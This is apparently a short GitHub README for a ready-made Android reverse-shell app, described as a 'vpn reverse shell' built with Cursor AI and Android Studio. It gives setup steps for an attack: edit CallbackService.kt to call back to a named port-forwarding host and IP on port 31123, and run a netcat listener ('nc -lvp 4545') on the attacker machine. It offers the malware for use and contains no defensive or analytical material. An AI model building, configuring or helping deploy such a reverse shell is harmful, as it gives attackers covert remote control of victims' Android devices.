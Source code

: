 # android-studio-reverse-shell-premade

this zip file has a project vergin one and vpn reverse shell made with cursor ai and android studio just build directly
(note) edit CallbackService.kt for portforwardingpdkad-31123.portmap.host:31123
or ip 193.161.193.99 port 31123
attacker machine nc -lvp 4545
